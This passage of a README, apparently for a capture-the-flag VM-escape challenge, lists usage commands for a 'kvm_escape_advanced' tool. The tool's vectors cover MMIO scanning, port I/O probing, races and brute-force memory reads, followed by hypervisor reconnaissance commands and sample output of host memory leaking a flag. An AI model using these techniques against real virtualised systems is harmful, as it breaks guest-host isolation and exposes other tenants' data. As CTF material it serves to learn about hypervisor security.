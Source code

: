 ### Phase 3: Systematic Search
```bash
# MMIO scanning
./kvm_escape_advanced 2  # Vector 2: MMIO scan

# PIO probing
./kvm_escape_advanced 6  # Vector 6: Port I/O
```

### Phase 4: Advanced Techniques
```bash
# Race conditions (takes time)
./kvm_escape_advanced 7  # Vector 7: Races

# Full memory scan (very slow)
./kvm_escape_advanced 8  # Vector 8: Brute force
```

### Phase 5: Custom Exploitation

If none of the above work, analyze the specific KVM/QEMU setup:

1. Check QEMU command line:
   ```bash
   ps aux | grep qemu
   ```
   
2. Look for custom devices or weird configs

3. Review dmesg for hints about the hypervisor

4. Try kernel info leaks:
   ```bash
   cat /sys/kernel/debug/kvm/...  # If debugfs mounted
   ```

---

## Success Indicators

You've successfully escaped if you see:

```
[+] Read X bytes from HOST physical 0x64279a8
Address          | Hex Bytes                                        | ASCII
-----------------|--------------------------------------------------|------------------
0x0000000064279a8 | 66 6C 61 67 7B ... | flag{...
```

Or in kernel log:
```
[+] Hypercall returned host memory!
[+] Found flag pattern in buffer
```

---
